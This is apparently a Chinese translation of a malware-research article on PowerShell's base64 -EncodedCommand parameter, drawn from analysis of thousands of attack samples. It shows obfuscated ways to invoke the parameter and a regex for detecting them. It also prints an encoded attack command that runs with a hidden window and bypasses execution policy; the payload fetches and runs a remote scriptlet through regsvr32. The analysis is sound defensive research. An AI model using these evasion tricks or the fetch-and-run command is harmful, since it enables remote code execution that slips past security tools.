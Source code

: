 首先让我们来看一下PowerShell的“-EncodedCommand”参数。



```
-EncodedCommand
    Accepts a base64-encoded string version of a command. Use this parameter
    to submit commands to Windows PowerShell that require complex quotation
    marks or curly braces.
```

如PowerShell上述的使用说明，“EncodedCommand”是其一个命令，旨在对复杂字符串进行封装以便PowerShell在命令行中进行执行。你可以利用此命令对关键字符串进行隐藏，以躲避防护软件的探测。

本文主要有两个目的，其一，本文在“整体分析”中会分析利用Palo Alto Networks AutoFocus服务识别收集的4,100个PowerShell攻击样本（这些样本均使用了EncodedCommand技术），来了解PowerShell攻击中所使用的技术及攻击方式；其二，我将利用解码后样本对PowerShell代码进行分类，为后续识别或研究工作提供参考。

<br>

**二、整体分析**

在开始分析前，我首先需要识别使用该技术的样本。因为PowerShell为用户提供了多种灵活调用参数的方法，因此样本的识别工作并不像想象中的那么容易。

以下三个样本使用那个了三种不同的方法来调用EncodedCommand参数：

1、完全形式：

```
powershell.exe –EncodedCommand ZQBjAGgAbwAgACIARABvAHIAbwB0AGgAeQAiAA==
```

2、大写截断形式：

```
powershell.exe –eNco ZQBjAGgAbwAgACIAVwBpAHoAYQByAGQAIgA=
```

3、转义字符注入分解字符串形式：

```
powershell.exe –^e^C^ ZQBjAGgAbwAgACIAVwBpAHQAYwBoACIA
```

对这三种方法进行组合利用，单论“EncodedCommand”参数，我们就可以得到100,00多种变化。我给出了以下的正则表达式，覆盖了这种变化多数情况，同时也可以方便地应用于动态分析报告中的大规模语料库场景。

```
-[Ee^]{1,2}[NnCcOoDdEeMmAa^]+ [A-Za-z0-9+/=]{5,}
```

比如，正则表达式可以提取如下的PowerShell命令以便后续分析：



```
powerShell.exe -WindowStyle hiddeN -ExecuTionPolicy ByPasS -enc 
cgBlAGcAcwB2AHIAMwAyACAALwB1ACAALwBzACAALwBpADoAaAB0AHQAcAA6
AC8ALwAxADkAMgAuADEANgA4AC4ANAA4AC4AMQAyADkALwB0AGUAcwB0AC4
AagBwAGcAIABzAGMAcgBvAGIAagAuAGQAbABsAAoA
```

大多数编码数据都是利用模板或公开工具生成而来，每当攻击者需要运行shellcode或下载另一个恶意文件时，他们并不需要重复造轮子。这一点可以通过以下情况证实：攻击代码中的底层代码基本一致，只有其中的文件下载地址及其他信息存在略微不同。为了对数据进行分析，我需要尝试识别代码并确定代码的生成方式，或者至少能够对代码进行分组归类。
